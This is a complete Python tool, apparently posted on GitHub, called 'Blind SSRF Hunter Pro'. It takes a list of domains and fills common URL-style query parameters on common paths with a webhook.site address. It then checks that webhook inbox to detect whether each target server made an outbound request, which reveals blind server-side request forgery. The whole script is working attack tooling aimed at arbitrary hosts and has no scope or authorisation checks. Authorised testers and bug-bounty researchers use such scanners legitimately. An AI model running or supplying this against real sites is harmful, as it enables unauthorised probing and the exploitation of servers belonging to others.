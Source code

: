 import argparse
import requests
import urllib.parse
import time
import sys

COMMON_PARAMS = [
    "url", "uri", "path", "continue", "data", "dest", "redirect", "next", "v",
    "image", "file", "link", "src", "load", "page", "callback", "return", "site",
    "open", "forward", "out", "reference", "fetch", "to", "proxy"
]

COMMON_PATHS = [
    "/", "/api", "/static", "/img", "/assets", "/images", "/files", "/content", "/scripts"
]

HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) SSRF-Hunter"
}

def inject_and_check(domain, webhook, verbose):
    domain = domain.strip()
    if not domain:
        return

    if not domain.startswith("http"):
        domain = "https://" + domain

    parsed = urllib.parse.urlparse(domain)
    base = f"{parsed.scheme}://{parsed.netloc}"

    ssrf_triggered = False

    for path in COMMON_PATHS:
        for param in COMMON_PARAMS:
            payload = urllib.parse.quote(webhook)
            test_url = f"{base}{path}?{param}={payload}"
            try:
                resp = requests.get(test_url, headers=HEADERS, timeout=7)
                if verbose:
                    print(f"[*] Tested: {test_url} => {resp.status_code}")
            except requests.RequestException as e:
                if verbose:
                    print(f"[-] Error testing {test_url}: {e}")

    if verbose:
        print("[*] Waiting 6 seconds for webhook delivery confirmation...")
    time.sleep(6)

    try:
        uuid = webhook.split("/")[-1]
        inbox_url = f"https://webhook.site/token/{uuid}/requests"
        inbox = requests.get(inbox_url).json()
        if inbox.get("data"):
            print(f"[SSRF FOUND] ✅ {domain}")
            return True
    except Exception as e:
        if verbose:
            print(f"[!] Error checking webhook: {e}")

    print(f"[SSRF NOT FOUND] ❌ {domain}")
    return False

def main():
    parser = argparse.ArgumentParser(description="Blind SSRF Hunter Pro")
    parser.add_argument("--list", required=True, help="File with list of domains")
    parser.add_argument("--blind", required=True, help="Webhook.site URL")
    parser.add_argument("--verbose", action="store_true", help="Enable verbose output")
    args = parser.parse_args()

    try:
        with open(args.list, "r") as file:
            domains = file.readlines()
            for domain in domains:
                print(f"\n[+] Scanning: {domain.strip()}")
                inject_and_check(domain.strip(), args.blind, args.verbose)
    except Exception as e:
        print(f"[!] Error reading file: {e}")
        sys.exit(1)

if __name__ == "__main__":
    main()
